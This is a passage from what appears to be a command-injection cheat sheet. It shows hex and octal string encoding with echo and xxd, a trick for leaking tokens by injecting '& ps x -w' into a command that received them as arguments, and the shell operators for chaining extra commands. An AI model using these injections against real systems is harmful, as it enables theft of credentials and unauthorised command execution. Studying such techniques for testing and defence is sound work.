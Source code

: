     ```bash
    echo -e "\x74\x65\x73\x74"
    echo -e "\0164\0145\0163\0164"
    ```

3. `xxd` command:

    ```bash
    $ xxd -r -p <<< 74657374
    $ xxd -r -ps <(echo 74657374)
    ```

References:
- [Bash Reference Manual: 3.1.2.4 ANSI-C Quoting](https://www.gnu.org/software/bash/manual/bash.html#ANSI_002dC-Quoting)
- [echo man page](https://linux.die.net/man/1/echo)
- [xxd man page](https://linux.die.net/man/1/xxd)

## Leak command line arguments

If you have parameter injection in a cli command that has been passed sensitive parameters, such as tokens or passwords, you can try to leak the passed secret with `ps x -w`.

```bash
# you can inject arbitrary parameters to <injection here> part
$ command --user username --token SECRET_TOKEN <injection here>
# send the vulnerable command to background with &
# and catch the parameters with ps x -w
$ command --user username --token SECRET_TOKEN & ps x -w

    PID TTY      STAT   TIME COMMAND
   1337 ?        S      0:00 /usr/bin/command --user username --token SECRET_TOKEN
   1574 ?        R      0:00 ps x -w
```


This can be useful if the cli logs hide sensitive settings or sensitive data is not stored in the environment. 

This can be useful if the cli logs hide sensitive data or sensitive data is not stored in the environment (for instance, GitHub Actions provide variable interpolation `${{...}}` for injecting secrets, and you can't give access to secrets during execution). Another case is when you have blind injection and can redirect the output of `ps x -w` to a file that you have access to.

## List of commands

Combine the execution of multiple commands using the operators `;`, `&`, `&&`, or `||`, and optionally terminated by one of `;`, `&`, or `\n`.

```bash
$ command1; command2
$ command1 & command2
$ command1 && command2
$ command1 || command2 # only if command1 fail
$ command1\ncommand2
```
